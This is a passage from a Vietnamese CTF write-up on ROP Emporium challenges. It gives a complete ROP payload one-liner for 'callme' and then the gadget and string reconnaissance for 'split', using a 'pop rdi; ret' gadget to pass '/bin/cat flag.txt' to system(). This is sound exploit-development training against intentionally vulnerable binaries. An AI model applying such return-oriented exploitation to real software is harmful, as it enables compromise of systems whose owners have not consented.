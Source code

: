 Truyền payload vào binary

```text-plain
python3 -c “import sys;sys.stdout.buffer.write(b'A'*40 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x20\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\x40\x07\x40\x00' + b'\x00'*4 + b'\x3c\x09\x40\x00' + b'\x00'*4 + b'\xef\xbe\xad\xde'*2 + b'\xbe\xba\xfe\xca'*2 + b'\x0d\xf0\x0d\xd0'*2 + b'\xbe\x06\x40\x00' + b'\x00'*4 + b'\xf0\x06\x40\x00' + b'\x00'*4)” | ./callme
```

## Split

Challenge 2 hướng dẫn chúng ta truyền string có sẵn trong binary làm argument cho function cho chúng ta sử dụn

![](images/Split/image.png)

Ta thấy hàm system gọi `/bin/ls` tuy nhiên ở đây ta muốn lấy nội dung của flag nên ta sẽ lấy chuỗi `/bin/cat flag.txt` trong section .data của binary để truyền vào arg1 của function system(). Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i split
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
...
$ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt


$ python3 Ropper.py -f split
...
0x00000000004007c3: pop rdi; ret;
0x000000000040053e: ret;
```

Gadget `pop rdi; ret;` sẽ lấy vị trí kế tiếp trong stack (địa chỉ của chuỗi command in ra flag trong section .data của binary) làm argument cho hàm system
